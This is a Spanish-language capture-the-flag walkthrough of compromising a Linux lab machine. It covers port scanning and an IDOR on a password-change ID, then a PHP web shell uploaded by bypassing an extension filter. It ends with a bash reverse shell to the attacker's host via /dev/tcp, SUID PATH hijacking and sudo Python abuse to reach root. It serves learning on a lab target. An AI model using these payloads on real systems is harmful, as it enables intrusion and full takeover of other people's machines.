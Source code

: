 ## Summary

Tags: #Linux #BurpSuite #PHP #RCE #ReverShell #Fuzzing #PathHijacking #SUID 

- IP -> 192.168.68.118
- Ports -> TCP (80, 22), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 ->  OpenSSH 8.2p1 
    - 80 -> Apache httpd 2.4.41

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups   # Buscas las IPs en tu red local 
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

Hacemos el registro en la web, luego ingresamos, miramos que podemos cambiar la passwd de nuestro usuario. 
Después, usamos Burpsuite para capturar el cambio de passwd. 

```bash 
❯ BurpSuiteCommunity &> /dev/null & disown    # Iniciamos el Burpsuite  
```

Miramos la captura del proxy y encontramos que además de la passwd podemos ver el 'ID', por lo que procedemos a cambiarlo por el 'ID=1' creyendo que este es el ID del usuario 'admin'. Vamos al portal de la web e ingresamos con el usuario 'admin' y la passwd que le colocamos en el Proxy del Burpsuite. 
Observamos que se pueden subir archivos, nos creamos un 'php' para poderlo subir. 

```php
❯ nvim cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>
```

Subimos el php, pero hay una 'restricción', por lo que usamos de nuevo el Burpsuite, para capturar el momento en que se sube el archivo y así poder modificarle las extensiones. 

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas

* php
* php3
* php4
* php5
* pht
* phtm
* phtml
* phar
```

Ya que logramos subir el archivo 'php', buscamos la ruta para poder ejecutar el 'php' 
```bash 
❯ wfuzz -c --hc=404 --hh=12345 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt http://❮IP❯

# Encontramos los siguientes directorios: 'upload, config, js, css'
```

Hacemos lo siguiente en la URL, una vez que sabemos cual de todos los archivos es el que si es interpretado.
```bash 
❯ http://192.168.68.118/upload/cmd.phar?cmd=whoami     # Para ver si podemos ejecutar comandos de manera remota 

# Ahora colocaremos una Revershell a nuestra maquina de atacante 
❯ http://192.168.68.118/upload/cmd.phar?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"

# Donde debemos de urlencodear el '&'
	& = %26
```

Nos colocamos en escucha antes de ejecutar la Revershell en la web. 
```bash
❯ nc -nlvp 443 
```

Hacemos el tratamiento de la TTY

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

## User

Ahora somo el usuario 'www-data'

```bash 
❯ hostname -I
❯ whoami 
```

Nos dirigimos al usuario John para ver que hay en su '/home/Jhon'

```bash 
❯ ls - la 

# Encontramos varios archivos 'file.py, password, toto, user.txt' 
	# El archivo 'toto' tiene permisos SUID 
	# Los demas archivos son de Jhon 

# Al momento de ejecutar el archivo 
❯ ./toto    # Este archivo ejecuta el comando 'id' en Linux
```

Procedemos a hacer un **path hijacking**

```bash 
❯ touch id 
❯ chmod +x id

1. Despues de crearnos el archivo 'id' en el dir '/tmp', este contendra lo siguiente:
	❯ bash -p          # Hacemos esto para que cuando ejecutemos ./toto, como es SUID le dara privilegios a la bash 
2. Ahora hacemos el PathHijacking
	❯ export PATH=/tmp:$PATH
```

Ahora somo el usuario 'John'

```bash 
❯ ls -la 
❯ cat password         # Nos muestra una passwd = 'roo123'
❯ cat user.txt         # Podemos ver la flag de user.txt
❯ cat file.py          # Este archivo Python no contiene nada 
```

## Root

Nos conectamos por SSH con la passwd que encontramos.

```bash 
❯ ssh john@192.168.68.118    # Nos conectamos al usuario John 
```

Comandos para la escalada:

```bash 
❯ sudo -l           # Para ver si el usuario tiene permisos a nivel de sudoers

	(root) /usr/bin/python3 /home/john/file.py    # El archivo que esta en el /home de John lo podemos ejecutar como 'root'
```

```python
# Modificamos el archivo 'file.py'

❯ nvim file.py         # Para hacer que el le de privilegios a la bash y asi convertirnos en root
	
	import os 
	os.system("bash -p")        
```

```bash
❯ sudo /usr/bin/python3 /home/john/file.py    # Asi ejecutamos el archivo de Python que hemos modificado 

❯ whoami    # Ahora somos root    
```